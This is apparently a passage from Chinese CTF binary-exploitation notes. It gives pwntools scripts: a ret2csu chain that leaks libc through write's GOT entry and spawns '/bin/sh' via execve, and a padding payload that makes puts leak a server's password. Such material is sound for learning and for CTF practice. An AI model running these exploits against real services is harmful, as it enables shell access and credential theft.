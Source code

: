 ```python
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```



##### password：

在很多题目中我们可以看见有一些password可以直接

```python
#puts遇到‘\x00’才停止
#将’n’替换成’x00’使得puts(v5)能正确输出输入的name，但如果输入了0x100个垃圾数据的话，会导
#致最后一个’n’并没有读入而导致程序在puts(v5)时会连带下面的password一起输出，这样我们就可以得
#到服务器上的password，所以会将password顺带着打印出来。

payload = """
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaa
ataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaa
bnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaa
chaaciaacjaackaaclaacmaacnaac
"""

io.sendline(payload)
io.recvuntil('aa,')
password = io.recv(33)
```


